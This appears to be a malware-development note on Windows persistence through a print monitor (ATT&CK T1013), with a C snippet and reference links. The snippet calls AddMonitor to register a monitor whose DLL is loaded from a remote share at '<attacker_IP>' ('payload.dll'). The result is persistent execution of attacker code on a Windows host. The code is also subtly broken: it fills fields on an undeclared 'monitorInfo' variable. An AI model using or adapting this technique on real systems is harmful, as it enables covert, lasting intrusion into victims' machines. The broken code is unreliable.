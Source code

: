 ```yaml
---
author(s):
  - Userware
tags:
  - malware-development
  - maintaining-access
  - persistence
  - T1013
  - windows
---
```

# Printer

## Print Monitor

```c
#include <windows.h>
#include <winspool.h>

#pragma comment(lib, "winspool.lib")

int main() {
    // Build the struct req by AddMonitor
    MONITOR_INFO_2 mon;
    TCHAR name[14] = TEXT("MonitorSlayer");
    TCHAR arch[12] = TEXT("Windows x64");
    TCHAR dll[39] = TEXT("\\\\<attacker_IP>\\<share_name>\\payload.dll");
    monitorInfo.pName = name;
    monitorInfo.pEnvironment = arch;
    monitorInfo.pDLLName = dll;

    // Add the monitor
    AddMonitor(NULL, 2, (LPBYTE)&mon);
    return 0;
}
```

---
## References

### Microsoft

- [WinAPI Documentation: `AddMonitor`](https://learn.microsoft.com/en-us/windows/win32/printdocs/addmonitor)

### Persistence Info

- [Persistence Info: Print Monitor](https://persistence-info.github.io/Data/printmonitor.html)

### Red Team Notes

- [Red Team Notes: `AddMonitor()`](https://www.ired.team/offensive-security/persistence/t1013-addmonitor)

### Slayer Labs

- [Slayer Labs: Windows Persistence via Port Monitors](https://posts.slayerlabs.com/monitor-persistence/)